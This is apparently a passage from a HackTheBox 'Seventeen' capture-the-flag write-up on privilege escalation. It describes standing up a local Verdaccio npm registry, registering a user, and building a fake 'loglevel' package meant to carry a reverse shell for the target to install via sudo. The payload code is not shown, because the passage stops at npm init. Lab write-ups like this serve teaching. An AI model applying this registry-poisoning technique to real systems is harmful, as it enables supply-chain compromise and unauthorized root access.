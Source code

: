 Analyse the app index.js to exhibit required loglevel:

```console
kavi@seventeen:/opt/app$ cat index.js
const http = require('http')
const port = 8000
const fs = require('fs')
//var logger = require('db-logger')
var logger = require('loglevel')
```

- **4873** port -> Verdaccio: A lightweight Node.js private proxy registry
- **IDEA**: start a local verdaccio (docker, adduser, publish) & change remote machine's registry -> sudo cmd to download a fake loglevel with revshell

**Exploit**:

1. Start a local [Verdaccio](https://github.com/deployable/docker-verdaccio) & Add a new user:

```console
└─╼$ sudo docker run \
        -it \
        --rm \
        -p 4873:4873 \
        verdaccio/verdaccio
 info --- config file  - /verdaccio/conf/config.yaml
 info --- the "crypt" algorithm is deprecated consider switch to "bcrypt" in the configuration file. Read the documentation for additional details
 info --- using htpasswd file: /verdaccio/storage/htpasswd
 info --- plugin successfully loaded: verdaccio-htpasswd
 info --- plugin successfully loaded: verdaccio-audit
 warn --- http address - http://0.0.0.0:4873/ - verdaccio/5.29.2
```

```console
└─╼$ npm adduser --registry http://127.0.0.1:4873/ --auth-type=legacy
npm notice Log in on http://127.0.0.1:4873/
Username: qwe
Password:
Email: (this IS public) qwe@hackthebox.com
Logged in on http://127.0.0.1:4873/.
```

2. Create a customized npm package: loglevel

```console
fake a npm package: loglevel
----------------------------
└─╼$ npm init
This utility will walk you through creating a package.json file.
It only covers the most common items, and tries to guess sensible defaults.

See `npm help init` for definitive documentation on these fields
and exactly what they do.

Use `npm install <pkg>` afterwards to install a package and
save it as a dependency in the package.json file.

Press ^C at any time to quit.
package name: (db-logger)
version: (1.0.0) 1.0.1
description: im qwe
entry point: (index.js)
test command:
git repository:
keywords:
author:
license: (ISC)
About to write to /mnt/hgfs/share/pwk/linux/Seventeen/priv/db-logger/package.json:
```
